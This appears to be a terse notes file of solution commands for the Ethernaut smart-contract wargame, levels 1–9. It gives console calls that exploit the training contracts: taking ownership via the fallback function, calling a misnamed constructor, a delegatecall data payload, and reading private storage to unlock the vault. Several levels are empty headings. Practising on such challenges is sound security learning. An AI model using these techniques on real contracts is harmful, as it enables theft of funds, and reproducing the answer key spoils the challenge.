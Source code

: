 # 1. Hello Ethernaut
```
contract.info()

contract.info1()

contract.info2()

contract.infoNum()

contract.info42()

contract.theMethodName()

contract.method7123949()

contract.password()

contract.authenticate("ethernaut0")

```
---
# 2. Fallback
```
contract.contribute.sendTransaction({from: player, value: toWei("0.0001")})

contract.sendTransaction({from: player, value: toWei(0.0000001)})

contract.withdraw()
```
---
# 3. Fallout
```
contract.Fal1out.sendTransaction({from: player, value: toWei("0.00001")})
```
# 4. Coin Flip

---
# 5. Telephone

---
# 6. Token

---
# 7. Delegation
```
contract.sendTransaction({from: player, to: this, value:0, data: "0xdd365b8b" })
```
---
 # 8. Force

---
 # 9. Vault
`web3.eth.getStorageAt(instance, "1")`
`contract.unlock("0x412076657279207374726f6e67207365637265742070617373776f7264203a29")`
---

